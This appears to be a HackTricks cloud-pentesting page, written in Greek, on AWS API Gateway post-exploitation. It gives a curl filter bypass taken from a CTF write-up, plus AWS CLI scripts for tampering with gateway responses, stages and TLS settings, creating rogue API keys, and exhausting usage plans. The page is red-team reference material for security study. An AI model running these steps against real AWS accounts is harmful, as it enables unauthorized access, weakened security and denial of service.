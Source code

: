 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

Μπορείτε να δημιουργήσετε ένα endpoint στο [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) με την υπηρεσία `com.amazonaws.us-east-1.execute-api`, να εκθέσετε το endpoint σε ένα δίκτυο όπου έχετε πρόσβαση (πιθανώς μέσω μιας μηχανής EC2) και να αναθέσετε μια ομάδα ασφαλείας που επιτρέπει όλες τις συνδέσεις.\
Στη συνέχεια, από τη μηχανή EC2 θα μπορείτε να αποκτήσετε πρόσβαση στο endpoint και επομένως να καλέσετε το API gateway που δεν είχε εκτεθεί προηγουμένως.

### Bypass Request body passthrough

Αυτή η τεχνική βρέθηκε σε [**αυτή την αναφορά CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Όπως αναφέρεται στην [**τεκμηρίωση AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) στην ενότητα `PassthroughBehavior`, από προεπιλογή, η τιμή **`WHEN_NO_MATCH`**, όταν ελέγχει την κεφαλίδα **Content-Type** του αιτήματος, θα περάσει το αίτημα στο backend χωρίς μετασχηματισμό.

Επομένως, στο CTF το API Gateway είχε ένα πρότυπο ολοκλήρωσης που **εμπόδιζε τη σημαία να εξαχθεί** σε μια απάντηση όταν αποστέλλεται ένα αίτημα με `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ωστόσο, η αποστολή ενός αιτήματος με **`Content-type: text/json`** θα εμπόδιζε αυτό το φίλτρο.

Τέλος, καθώς το API Gateway επέτρεπε μόνο `Get` και `Options`, ήταν δυνατό να σταλεί ένα αυθαίρετο ερώτημα dynamoDB χωρίς κανέναν περιορισμό στέλνοντας ένα POST αίτημα με το ερώτημα στο σώμα και χρησιμοποιώντας την κεφαλίδα `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Στην ενότητα **Enumeration** μπορείτε να δείτε πώς να **αποκτήσετε το σχέδιο χρήσης** των κλειδιών. Εάν έχετε το κλειδί και είναι **περιορισμένο** σε X χρήσεις **ανά μήνα**, μπορείτε **απλώς να το χρησιμοποιήσετε και να προκαλέσετε DoS**.

Το **API Key** πρέπει απλώς να **περιλαμβάνεται** μέσα σε ένα **HTTP header** που ονομάζεται **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateGatewayResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει μια υπάρχουσα Gateway Response για να περιλαμβάνει προσαρμοσμένα headers ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα σενάρια**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateStage` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει μια υπάρχουσα σκηνή API Gateway για να ανακατευθύνει την κίνηση σε μια διαφορετική σκηνή ή να αλλάξει τις ρυθμίσεις caching για να αποκτήσει μη εξουσιοδοτημένη πρόσβαση σε αποθηκευμένα δεδομένα**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε αποθηκευμένα δεδομένα, διακοπή ή παρεμβολή στην κυκλοφορία API.

{% hint style="info" %}
Χρειάζεται δοκιμή
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:PutMethodResponse` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει την απάντηση μεθόδου μιας υπάρχουσας μεθόδου API Gateway REST API για να συμπεριλάβει προσαρμοσμένα headers ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα σενάρια**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανές Επιπτώσεις**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateRestApi` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει τις ρυθμίσεις του API Gateway REST API για να απενεργοποιήσει την καταγραφή ή να αλλάξει την ελάχιστη έκδοση TLS, ενδεχομένως αποδυναμώνοντας την ασφάλεια του API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανές Επιπτώσεις**: Αδυναμία της ασφάλειας του API, επιτρέποντας ενδεχομένως μη εξουσιοδοτημένη πρόσβαση ή έκθεση ευαίσθητων πληροφοριών.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ένας επιτιθέμενος με δικαιώματα `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, και `apigateway:CreateUsagePlanKey` μπορεί **να δημιουργήσει νέα API keys, να τα συσχετίσει με σχέδια χρήσης και στη συνέχεια να χρησιμοποιήσει αυτά τα κλειδιά για μη εξουσιοδοτημένη πρόσβαση σε APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Πιθανές Επιπτώσεις**: Μη εξουσιοδοτημένη πρόσβαση σε πόρους API, παράκαμψη ελέγχων ασφαλείας.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
